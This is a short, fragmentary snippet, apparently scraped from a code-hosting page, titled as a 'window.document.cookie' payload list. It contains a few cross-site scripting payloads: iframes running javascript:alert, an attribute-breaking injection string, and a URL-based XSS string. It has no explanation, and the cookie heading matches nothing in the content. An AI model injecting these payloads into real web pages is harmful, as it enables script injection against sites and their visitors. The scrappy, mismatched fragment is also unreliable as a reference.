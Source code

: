 #### window.document.cookie Payload List :

```


i








<iframe src="javascript:alert('XyS by \nwindow.localStorage');"></iframe><marquee><h1>XyS by window.localStorage</h1></marquee>

"><h1><IFRAME SRC="javascript:alert('xss');"></IFRAME>">123</h1>

http://66.102.7.147/">XSS













